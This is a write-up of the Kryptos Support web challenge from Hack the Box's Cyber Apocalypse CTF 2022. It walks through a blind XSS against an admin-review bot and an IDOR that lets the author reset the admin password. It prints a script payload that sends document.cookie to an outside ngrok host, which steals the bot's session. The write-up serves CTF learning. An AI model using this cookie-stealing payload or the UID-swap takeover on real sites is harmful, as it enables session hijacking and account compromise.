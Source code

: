 ```yaml
---
description: >-
  Hack the Box Cyber Apocalypse CTF 2022 - Intergalactic Chase, Kryptos Support
  Web Challenge Writeup
---
```


# Web - Kryptos Support

Kryptos Support was the first web challenge in Hack the Box's Cyber Apocalypse CTF and was the easiest, as it had the most solves. Our team couldn't solve it for a long time though. As you will see in this write up it involves context clues to get this one solved.

To start off with we are greeted by a page where we can provide feedback on the Kryptos Vault. This page also has a button labeled backend that will take you to a login page. These are the only two pages you have access to but with a dirbuster scan we can see there are more. Now to start we looked for SQLI or any CVEs that were known for the middleware and backend. We found none and couldn't scout out anything else. This is where we got stuck and we went to spend time on other challenges instead.

When I came back to this challenge I knew I would have to look at every small detail. And that's when it hit me. When you submit a ticket it says "An admin will review your ticket shortly!"

![](../../.gitbook/assets/dfbdfba.PNG)

This made me think that there was something on the other side loading the tickets. That's when I tried a super simple XSS attack using this payload:

```
<img src=http://a9cc-72-74-50-90.ngrok.io/test.jpeg></img>
```

And I got a hit back!

After realizing thats the attack vector I needed to exploit I immediately went to steal the session from the bot opening it on the backend using this payload:

```
<script>var i=new Image;i.src="http://a9cc-72-74-50-90.ngrok.io/?"+document.cookie;</script>
```

And this worked too!

Now using this session I grabbed I just added it to my cookies and headed to the login page and BOOM I was in.

![](../../.gitbook/assets/kryptosSupportBackendAccess.PNG)

Now we are logged in as a moderator and from my dirbuster scan I know there is an /admin page, so I tried to visit there andd..... no luck. This means we have to find a way to escalate our privileges. From looking around I see there is an settings page and on that page is a change password feature. I went ahead and intercepted the request it makes to change the password in BurpSuite and it only takes in two things: the UID of the account, and the new password. Lets see if it checks the session as well...

![](../../.gitbook/assets/KryptosSupportadminPasswordChange.PNG)

It doesn't! By just changing the UID to 1, for the first account, instead of the moderator UID, I changed the admin password. Now all I had to do was sign out and login with username admin and password test and I was in on the admin page:

![](../../.gitbook/assets/KryptosSupportFlag.PNG)

PWNED!!
